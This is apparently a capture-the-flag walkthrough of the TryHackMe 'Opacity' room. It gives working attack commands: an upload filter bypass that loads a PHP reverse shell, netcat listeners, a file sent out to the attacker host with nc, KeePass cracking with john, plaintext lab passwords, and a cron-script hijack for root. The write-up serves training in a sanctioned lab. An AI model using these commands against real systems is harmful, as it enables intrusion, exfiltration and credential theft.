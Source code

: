 # Opacity

**Room Link:** [https://tryhackme.com/room/opacity](https://tryhackme.com/room/opacity)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

Found this page, I tried different extensions but it looks like it only accepts extentsions that images uses such as .jpg and .png

<figure><img src="../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```

<figure><img src="../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
nc -lvnp 1337
```

**Browser**

```
http://$KALI:81/php-reverse-shell.php#.jpg
```

<figure><img src="../../.gitbook/assets/image (299).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (300).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Transfer file

In /opt we find a keepass file so I transfered back to Kali to try to crack it

<figure><img src="../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

**Kali(receiving)**

```
nc -l -p 1234 > dataset.kdbx
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < dataset.kdbx
```



### Crack KeePass

**Kali**

```
/opt/john/keepass2john dataset.kdbx > johnkeepass.txt
john --wordlist=/usr/share/wordlists/rockyou.txt johnkeepass.txt 
```

<figure><img src="../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
keepassx dataset.kdbx 
Password: 741852963
```

<figure><img src="../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
ssh sysadmin@$VICTIM
Password: Cl0udP4ss40p4city#8700
```

<figure><img src="../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

## PSPY

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32
```



<figure><img src="../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

The script calls backup.inc.php in the lib folder, we can't edit this file but we can delete it and replace it so I copied the same php reverse shell script that was used before and replaced backup. After that I just waited until the script ran on its own.

**Kali #1**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
rm -f backup.inc.php
wget http://10.10.215.36:81/php-reverse-shell.php 
cp php-reverse-shell.php backup.inc.php
```

**Kali #2**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>



